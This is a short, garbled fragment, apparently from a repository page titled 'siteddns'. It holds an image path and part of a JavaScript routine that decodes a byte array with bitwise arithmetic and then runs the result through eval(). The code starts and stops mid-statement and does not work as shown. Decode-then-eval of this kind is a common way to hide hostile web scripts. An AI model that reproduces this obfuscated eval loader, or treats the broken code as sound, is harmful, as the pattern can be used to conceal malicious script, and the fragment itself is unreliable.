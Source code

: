  # siteddns
48)break;iu[ku]=(-((~((iu[ku]+iu[ku+1])&0xff))&0xff))&0xff;ku++;}while(true);";eval(ku);ju="";for(ku=1;ku
